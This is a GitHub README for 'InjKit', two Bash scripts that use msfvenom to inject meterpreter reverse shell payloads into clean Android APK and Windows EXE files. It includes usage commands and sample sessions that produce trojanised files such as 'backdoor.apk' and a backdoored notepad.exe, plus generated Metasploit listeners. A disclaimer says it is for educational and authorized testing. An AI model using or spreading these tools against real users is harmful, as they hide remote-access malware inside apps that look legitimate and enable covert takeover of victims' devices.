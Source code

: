 # InjKit

**Payload Injector Toolkit (APK & EXE)**

InjKit provides two simple yet powerful Bash scripts that let you inject **meterpreter reverse shell payloads** into clean **APK** or **EXE** files using `msfvenom`.

---

## 📁 Included Scripts

### 1. `apk_injector.sh` — Android APK Injector

Injects a reverse shell payload into a clean APK file using Metasploit’s `msfvenom`.

#### 🔧 Features:

- Simple interactive interface
- Verifies APK file path before injection
- Detects payload settings (LHOST, LPORT)
- Generates a new APK file with embedded payload
- Automatically creates a **Metasploit listener script (`listener.r`)**

#### 🚀 Example Usage:

```bash
chmod +x apk_injector.sh
./apk_injector.sh

🖥️ Sample Terminal Interaction:

===============================
        APK Payload Injector   
===============================

🌐 Enter LHOST: 192.168.1.100
🎯 Enter LPORT: 4444
Enter the path to a clean APK file: /root/app.apk
Enter the output file name (e.g., evil.apk): backdoor.apk

[*] Injecting payload into /root/app.apk...
[+] Payload injected successfully! Saved as: backdoor.apk
[+] Metasploit listener script saved as: listener.r
[*] You can run it using: msfconsole -r listener.r


---

2. exe_injector.sh — Windows EXE Injector

Injects a reverse shell payload into a clean EXE file using Metasploit’s msfvenom.

🔧 Features:

Interactive prompts for LHOST/LPORT and file paths

Detects EXE architecture (x86 or x64) automatically

Selects the appropriate payload

Generates a new EXE with embedded reverse shell

Automatically creates a Metasploit listener script (listener.r)


🚀 Example Usage:

chmod +x exe_injector.sh
./exe_injector.sh

🖥️ Sample Terminal Interaction:

===============================
      EXE Payload Injector     
===============================

🌐 Enter LHOST: 192.168.1.100
🎯 Enter LPORT: 5555
Enter the path to a clean EXE file (e.g., notepad.exe): /root/notepad.exe
Enter the output file name (e.g., evil.exe): payload.exe

=========================================
✅ Architecture detected: x64
=========================================

[*] Injecting payload into /root/notepad.exe...
[+] Payload injected successfully! Saved as: payload.exe
[+] Metasploit listener script saved as: listener.r
[*] You can run it using: msfconsole -r listener.r


---

🎯 Listener Script (listener.r)

After each successful payload injection, a file named listener.r is generated. This file contains the required Metasploit commands to handle the reverse connection.

🔁 How to use it:

msfconsole -r listener.r


---

⚠️ Notes

These tools depend on msfvenom, which is part of the Metasploit Framework.

Ensure Metasploit is installed and that msfvenom is accessible via terminal.

This tool is for educational and authorized penetration testing purposes only.



---

💬 Feedback

Feel free to submit issues, improvements, or suggestions.
Made with ❤️ for learning, red teaming, and ethical hacking.


---



